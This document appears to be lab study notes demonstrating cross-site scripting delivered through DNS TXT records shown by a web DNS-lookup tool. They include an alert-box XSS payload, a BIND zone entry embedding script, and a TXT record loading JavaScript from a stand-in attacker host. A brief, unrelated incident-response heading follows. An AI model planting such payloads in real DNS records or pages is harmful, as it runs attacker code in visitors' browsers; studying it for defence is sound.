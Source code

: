 

## Condensed Spellbook - 4.2 XSS Scripting 
Spell showcases reflected XSS attack on a DNS Record. First off, the user goes to a dns-lookup tool

[example.com]/dnslookup --> showing TXT Records. 

When you register a DNS Record, you can include lots of fields such as DKIM but also TXT Records. The lab claims that this can contain javascript and thus execute

/etc/bind/zones


 
### 1. Vanilla XSS

Opens up a vulnerable web app and enters just a regular old XSS Injection in.... an input box 

\<script> alert('XSS 1!') </script>"

### 2. Edit the DNS Record and See

vim /etc/bind/zones/[redacted]info.db

(Bind DNS)

## example.com.  IN TXT "\<script> alert('XSS 2!') </script>"


Now if the user is doing this DNS lookup, the site will actually execute the javascript

### 3. Load+Execute an external JS File

We are repeating step 2 but rather than just having a typical <script>alert that explodes in the user's face when they pull up the DNS Record, this XSS will load from attacker.com/malicious.js

(Bind DNS)

example.com.  IN TXT "<script src='//evil.com/malicious.js'> </script>"

Keep in mind the A and MX records as well.

Credit goes where credit goes


Jamie Hankins, Erick Setiawan, Jonathan Davis, Devin Walters




## Incident Response

### Varonis Set
#### 1/3

"Can we capture the memory? (aka RAM)"

Malware can hide but it must run
